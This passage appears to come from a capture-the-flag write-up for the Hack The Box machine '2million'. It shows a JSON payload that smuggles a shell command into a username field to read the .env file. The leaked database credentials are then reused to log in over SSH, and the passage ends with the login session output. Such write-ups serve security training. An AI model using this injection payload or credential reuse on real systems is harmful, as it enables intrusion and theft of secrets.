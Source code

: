 Payload:
```
{
    "email": "",
    "username":"; echo `cat .env` ; "
}
```

Result:
```
DB_HOST=127.0.0.1 
DB_DATABASE=htb_prod 
DB_USERNAME=admin 
DB_PASSWORD=SuperDuperPass123
```

Try SSH access as `admin@10.x.x.x:SuperDuperPass123`.

```
$ ssh admin@10.x.x.x
The authenticity of host '10.x.x.x (10.x.x.x)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.x.x.x' (ED25519) to the list of known hosts.
admin@10.x.x.x's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Mar 20 09:39:02 PM UTC 2025

  System load:  0.0               Processes:             225
  Usage of /:   82.6% of 4.82GB   Users logged in:       1
  Memory usage: 9%                IPv4 address for eth0: 10.x.x.x
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


You have mail.
Last login: Thu Mar 20 20:11:46 2025 from 10.10.14.174
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$ ls -lah
total 32K
drwxr-xr-x 4 admin admin 4.0K Jun  6  2023 .
drwxr-xr-x 3 root  root  4.0K Jun  6  2023 ..
lrwxrwxrwx 1 root  root     9 May 26  2023 .bash_history -> /dev/null
-rw-r--r-- 1 admin admin  220 May 26  2023 .bash_logout
-rw-r--r-- 1 admin admin 3.7K May 26  2023 .bashrc
```